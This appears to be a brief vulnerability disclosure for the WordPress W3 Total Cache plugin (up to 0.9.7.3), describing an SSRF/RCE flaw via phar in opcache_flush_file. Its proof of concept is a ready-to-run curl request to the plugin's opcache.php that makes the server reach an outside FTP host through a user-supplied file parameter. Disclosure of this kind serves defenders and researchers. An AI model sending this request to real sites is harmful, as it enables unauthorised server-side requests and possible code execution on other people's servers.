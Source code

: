 # Wordpress W3 Total Cache SSRF/RCE
W3 Total Cache &lt;= 0.9.7.3 - SSRF / RCE via phar

# Description:
The implementation of `opcache_flush_file` calls `file_exists` with a parameter fully controlled by the user.

# POC:

> curl 'http://x.x.x.x/wp-content/plugins/w3-total-cache/pub/opcache.php' --data 'nonce=974ca6ad15021a6668e7ae02e1be551c&command=flush_file&file=ftp://y.y.y.y:zzzz/' 
